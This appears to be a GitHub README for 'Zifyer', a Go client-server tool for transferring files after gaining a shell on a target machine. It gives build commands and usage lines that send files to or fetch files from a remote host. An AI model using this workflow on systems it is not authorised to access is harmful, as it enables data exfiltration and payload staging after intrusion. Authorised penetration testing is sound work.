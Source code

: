 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
Seps:
1. Get a shell to the target
2. Run the server on your machine.
3. Drop the Zifyer binary to target machine.
4. Upload/Download files between the shells.

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to machine mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>

<h3>Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>
<p>dir Directory to store uploads</p>

<p>./Final_Server -H "I.p to host the server" -p "Port" dir "Directory to upload the files to" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Final_Server -H 192.168.1.39 -p 9000 dir uploads </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

